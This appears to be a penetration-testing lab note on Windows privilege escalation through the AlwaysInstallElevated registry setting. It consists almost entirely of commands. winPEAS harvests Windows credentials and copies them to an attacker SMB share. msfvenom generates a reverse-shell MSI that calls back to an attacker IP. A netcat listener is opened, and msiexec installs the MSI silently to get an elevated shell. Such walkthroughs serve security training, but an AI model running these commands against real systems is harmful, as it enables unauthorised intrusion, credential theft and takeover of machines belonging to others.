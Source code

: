 1x5 Registry - AlwaysInstallElevated

## Registry - AlwaysInstallElevated 

```bash
.\winPEASany.exe ansi quiet windowscreds > wpeas_wincreds_op.txt
copy C:\PrivEsc\wpeas_wincreds_op.txt \\10.9.4.127\kali\wpeas_wincreds_op.txt
cat wpeas_wincreds_op.txt
```
![4b363d0fe3806f9f44a0959f9c0f09ac.png](../_resources/4fde60d39c62403c8e1d71d976ccea9f.png)

```console
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
![379c68aa4cf9ce1c4c9220ca8c1ad96a.png](../_resources/64e9b52cc678416ba4af01f192516c19.png)

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.4.127 LPORT=53 -f msi -o reverse.msi
```
![163f65c28d5b51575c42ddc4053d9192.png](../_resources/6959611c24484dc38e45736c2262ec2c.png)
```bash
copy \\10.9.4.127\kali\reverse.msi C:\PrivEsc\reverse.msi
```
![728a95b210e9d9dd00968e96e13b2865.png](../_resources/a89e8c8bcb10410caa627c361ce94081.png)

```bash
sudo nc -nvlp 53
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```
![99edd33ff49eeff26a75e9c04794febe.png](../_resources/cc92ef3e29394d56a5bde06fbd4209d3.png)
